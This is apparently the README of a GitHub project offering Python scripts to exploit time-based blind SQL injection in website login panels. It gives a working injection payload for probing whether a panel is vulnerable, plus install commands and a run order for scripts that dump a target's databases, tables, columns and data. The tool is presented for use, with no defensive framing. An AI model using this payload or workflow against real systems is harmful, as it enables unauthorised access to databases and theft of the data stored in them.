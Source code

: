# Blind SQL Injection - Time-Based

These are some scripts to exploit a Time-Based SQL Injection in a login panel. 

## How to know when I can use these scripts

If you type in a field of the login panel this: 

`' or sleep(10)-- -`

And the page takes 10 or more second to respond, then it may be vulnerable to a Time-based SQL injection

## Installation

```
git clone https://github.com/S0ftD3ath/BlindSQLi.git
cd BlindSQLi
pip install -r requirements.txt
```

## Usage

python3 <script.py>

Note: You have to change some information in the global variables of the script

## Order to execute the scripts

`python3 dumpDB.py`
`python3 dumpTables.py`
`python3 dumpColumns.py`
`python3 dumpDataFromColumns.py`


